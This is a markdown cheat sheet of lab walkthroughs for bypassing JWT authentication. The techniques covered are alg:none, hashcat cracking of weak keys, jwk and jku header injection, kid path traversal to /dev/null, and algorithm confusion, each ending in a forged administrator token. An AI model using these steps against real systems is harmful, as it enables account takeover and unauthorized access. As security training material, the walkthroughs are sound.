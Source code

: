 
# Attacking JWT Methods

## JWT authentication bypass via unverified signature

```bash
"username":"delta",  
## Change This To
"username":"admin",
```

## JWT authentication bypass via flawed signature verification

```bash
Select The Header Part From Inspecter Section In Burp
Decode Base 64
Change alg to none "alg":"none"
Click apply changes
"username":"delta",  
## Change This To
"username":"admin",
Then Remove End/signature part and send request
if fails add . at end then resend
```

## JWT authentication bypass via weak signing key
```bash
Log In With Your Credentials. Copy JWT from cookie
hashcat -a 0 -m 16500 <YOUR-JWT> /path/to/jwt.secrets.list
# Now Hashcat Will Show Us The Cracked Secret
In Burp, go to the JWT Editor Keys tab and click New Symmetric Key. In the dialog, click Generate to generate a new key in JWK format.
Replace the generated value for the k property with the Base64-encoded secret.
Click Ok
Now we have new Signature 
Burp Repeater and switch to the extension-generated JSON Web Token message editor tab. 
In the payload, change the value of the sub claim to administrator
At the bottom of the tab, click Sign, then select the key that you generated in the previous section.
send request DONE!!
```

## JWT authentication bypass via jwk header injection
- JSON WEB KEY sometimes used to embed the correct verification key directly in the token

```bash
    "kty" (Key Type): This parameter specifies the type of key. It can take values like "RSA" for RSA keys, "EC" for elliptic curve keys, or "oct" for symmetric keys.

    "kid" (Key ID): This parameter provides a unique identifier for the key. It helps in key management scenarios where multiple keys are involved.

    "alg" (Algorithm): This parameter indicates the algorithm associated with the key. For example, "RS256" represents the RSA signature algorithm with SHA-256.

    "use" (Key Use): This parameter specifies the purpose of the key, such as "sig" for a key used for signing or "enc" for encryption.

    "n" and "e" (RSA-specific): These parameters represent the modulus and exponent of an RSA public key.

    "crv" and "x"/"y" (Elliptic Curve-specific): These parameters represent the curve type and the coordinates of the public key point on the curve.

    "k" (Symmetric key): This parameter represents the value of the symmetric key.
```

- How to do JWK header injection
 ```
Go to the JWT Editor Keys tab in Burp's main tab bar.
Click New RSA Key.
lick Generate to automatically generate a new key pair, then click OK to save the key.
in JWT  change the value of the sub claim to administrator. 
At the bottom of the JSON Web Token tab, click Attack, then select Embedded JWK. When prompted, select your newly generated RSA key and click OK. 
In the header of the JWT, observe that a jwk parameter has been added containing your public key. 
Send request DONE!!
 ```


## JWT authentication bypass via jku header injection
When the "jku" parameter is present in the JWT header, it indicates that the public keys needed to verify the token's signature can be found at the specified URL. This allows for more efficient key management, as the keys can be rotated or updated independently of the tokens themselves.
```bash
{
  "alg": "RS256",
  "typ": "JWT",
  "jku": "https://example.com/keys.jwks"
}
```

- Solving The Lab

```bash
Go to the JWT Editor Keys Click New RSA Key.  click Generate to automatically generate a new key pair, then click OK to save the key
open exploit.html
add following code inside boy tag



{
    "keys": [

    ]
}

Back on the JWT Editor Keys tab, right-click on the entry for the key that you just generated, then select Copy Public Key as JWK. 
Paste the JWK into the keys array on the exploit server, then store the exploit. The result should look something like this: 
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw"
        }
    ]
}

in the header of the JWT, replace the current value of the kid parameter with the kid of the JWK that you uploaded to the exploit server. 
Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.
{
  "alg": "RS256",
  "typ": "JWT",
  "jku": "https://example.com/keys.jwks"
}

change the value of the sub claim to administrator.
click Sign, then select the RSA key that you generated in the previous section
then click OK. 
DONE!!

```


### JWT authentication bypass via kid header path traversal
 the server uses the kid parameter in JWT header to fetch the relevant key from its filesystem
```bash
Go to the JWT Editor Keys tab in Burp's main tab bar. Click New Symmetric Key. click Generate
Replace the generated value for the k property with a Base64-encoded null byte (AA==). 
Click OK to save the key. 
change the value of the kid parameter to a path traversal sequence pointing to the /dev/null file:
../../../../../../../dev/null 
 change the value of the sub claim to administrator
 click Sign, Clck ok
 DONE !!

```

### JWT authentication bypass via algorithm confusion
- found jwks.json leaking RSA public key in /jwks.json
```bash
Copy JWK object from inside of key array
go to jwt key editor tab
Say New RSA Key
Paste JWK Object
ANd click ok
righclick And copy as public pem
run python script for algo confusion
DONE!!!
```
